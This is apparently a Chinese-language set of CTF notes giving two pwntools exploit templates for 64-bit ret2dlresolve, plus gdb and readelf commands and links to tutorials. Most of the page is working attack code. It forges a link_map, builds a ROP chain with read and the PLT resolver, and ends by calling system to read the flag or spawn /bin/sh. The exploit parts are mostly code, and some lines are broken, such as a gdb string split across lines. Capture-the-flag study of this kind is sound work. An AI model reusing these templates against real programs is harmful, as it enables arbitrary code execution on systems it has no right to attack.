

#### exp1板子

```
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
p = process(['./without_leak'])
# p = remote("127.0.0.1",1234)
elf = ELF('./without_leak')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

rw_mem = elf.bss() + 0x10

n64 = lambda x: (x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF


def build_fake_link_map(fake_linkmap_addr, func, base_func='puts'):
    offset = n64(libc.sym[func] - libc.sym[base_func])
    linkmap = p64(offset)  # l_addr
    linkmap = linkmap.ljust(0x68, '\x00') 
    linkmap += p64(elf.bss())  # l_info[5]
    linkmap += p64(fake_linkmap_addr + 0x100)  # l_info[6]
    linkmap = linkmap.ljust(0xf8, '\x00')
    linkmap += p64(fake_linkmap_addr + 0x110)  # l_info[23]
    linkmap += p64(0) + p64(elf.got[base_func] - 8)  # Elf64_Dyn
    linkmap += p64(0) + p64(fake_linkmap_addr + 0x120)  # Elf64_Dyn
    linkmap += p64(n64(elf.bss() - offset)) + p32(7) + p32(0)  # Elf64_Rel
    return linkmap


# gdb.attach(p, "b *system
b *0x40119A
dir /glibc/2.35/source")
# pause()
fake_link_map_addr = elf.bss() + 0x800
fake_link_map = build_fake_link_map(fake_link_map_addr, 'system')
sh_addr = fake_link_map_addr + len(fake_link_map)
resolve_plt = elf.get_section_by_name('.plt').header.sh_addr

payload = ''
payload += 0x28 * '\x00'
payload += p64(elf.search(asm('ret'), executable=True).next())
payload += p64(elf.search(asm('pop rdi; ret'), executable=True).next())
payload += p64(0)
payload += p64(elf.search(asm('pop rsi; pop r15; ret'), executable=True).next())
payload += p64(fake_link_map_addr)
payload += p64(0)
payload += p64(elf.plt['read'])
payload += p64(elf.search(asm('pop rdi; ret'), executable=True).next())
payload += p64(sh_addr)
payload += p64(resolve_plt + 6)
payload += p64(fake_link_map_addr)  # truct link_map *l
payload += p64(0)  # ElfW(Word) reloc_arg
payload = payload.ljust(0x200, '\x00')

p.sendafter('> 
', payload)

payload = fake_link_map + 'cat flag>&0\x00'
p.send(payload)

p.interactive()
```

#### exp2板子

这个板子是在输入限制在0x100的情况下做了空间复用  


```
def build_fake_link_map(fake_linkmap_addr,func,base_func='puts'):
    # &(2**64-1)是因为offset为负数，如果不控制范围，p64后会越界，发生错误
    offset = n64(libc.sym[func] - libc.sym[base_func])
    # linkmap = p64(offset & (2 ** 64 - 1))#l_addr
    linkmap = p64(offset)
    # fake_linkmap_addr + 8，也就是DT_JMPREL，至于为什么有个0，可以参考IDA上.dyamisc的结构内容
    linkmap += p64(0) # 可以为任意值
    linkmap += p64(fake_linkmap_addr + 0x18) # 这里的值就是伪造的.rel.plt的地址
    # fake_linkmap_addr + 0x18,fake_rel_write,因为write函数push的索引是0，也就是第一项
    # linkmap += p64((fake_linkmap_addr + 0x30 - offset) & (2 ** 64 - 1)) # Rela->r_offset,正常情况下这里应该存的是got表对应条目的地址，解析完成后在这个地址上存放函数的实际地址，此处我们只需要设置一个可读写的地址即可 
    linkmap += p64(n64(elf.bss()-offset))
    linkmap += p64(0x7) # Rela->r_info,用于索引symtab上的对应项，7>>32=0，也就是指向symtab的第一项
    linkmap += p64(0)# Rela->r_addend,任意值都行
    linkmap += p64(0)#l_ns
    # fake_linkmap_addr + 0x38, DT_SYMTAB 
    linkmap += p64(0) # 参考IDA上.dyamisc的结构
    linkmap += p64(elf.got[base_func] - 0x8) # 这里的值就是伪造的symtab的地址,为已解析函数的got表地址-0x8
    linkmap += b'/bin/sh\x00'
    linkmap = linkmap.ljust(0x68,b'A')
    linkmap += p64(elf.bss()+0x100) # fake_linkmap_addr + 0x68, 对应的值的是DT_STRTAB的地址，由于我们用不到strtab，所以随意设置了一个可读区域
    linkmap += p64(fake_linkmap_addr + 0x38) # fake_linkmap_addr + 0x70 , 对应的值是DT_SYMTAB的地址
    linkmap = linkmap.ljust(0xf8,b'A')
    linkmap += p64(fake_linkmap_addr + 0x8) # fake_linkmap_addr + 0xf8, 对应的值是DT_JMPREL的地址
    return linkmap

read_plt = elf.plt['read']  
fake_linkmap_addr = elf.bss() + 0x100 
fake_link_map = build_fake_link_map(fake_linkmap_addr, 'system' ,'write')# 伪造link_map
padding=120
payload = cyclic(padding)
payload += flat({
    0x00:next(elf.search(asm('ret'), executable=True)),
    0x08:next(elf.search(asm('pop rdi; ret'), executable=True)),
    0x10:0,
    0x18:next(elf.search(asm('pop rsi; pop r15; ret'), executable=True)),
    0x20:fake_linkmap_addr,
    0x28:0,
    0x30:elf.plt['read'],
    0x38:next(elf.search(asm('pop rdi; ret'), executable=True)),
    0x40:fake_linkmap_addr + 0x48,
    0x48:elf.get_section_by_name('.plt').header.sh_addr + 6,
    0x50:fake_linkmap_addr,# struct link_map *l
    0x58:0 # ElfW(Word) reloc_arg
})
ru(b'Welcome to XDCTF2015~!
')  
sl(payload)
pause()
s(fake_link_map) 
```

# 常用命令

```
p &l->l_info[5]
p &l->l_info
p l
p *l
readelf -r bof 查看.rel.plt和.rel.dyn
readelf -d bof 查看 .dynamic
readelf -S bof 查看 各个节的地址
readelf -s bof 查看 查看.dynsym .symtab符号表
```

# 参考

[linux pwn 基础知识-CSDN博客](https://blog.csdn.net/qq_45323960/article/details/132191617?ops_request_misc=%257B%2522request%255Fid%2522%253A%25224e7b9ac3eda31dcd60b8d5bc92ff3ade%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=4e7b9ac3eda31dcd60b8d5bc92ff3ade&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-132191617-null-null.nonecase&utm_term=dl&spm=1018.2226.3001.4450)  
[ret2dl-runtime-resolve详细分析(32位&64位)\_dl-trampoline.h-CSDN博客](https://blog.csdn.net/seaaseesa/article/details/104478081)  
[ret2dlresolve超详细教程(x86&x64)-CSDN博客](https://blog.csdn.net/qq_51868336/article/details/114644569)
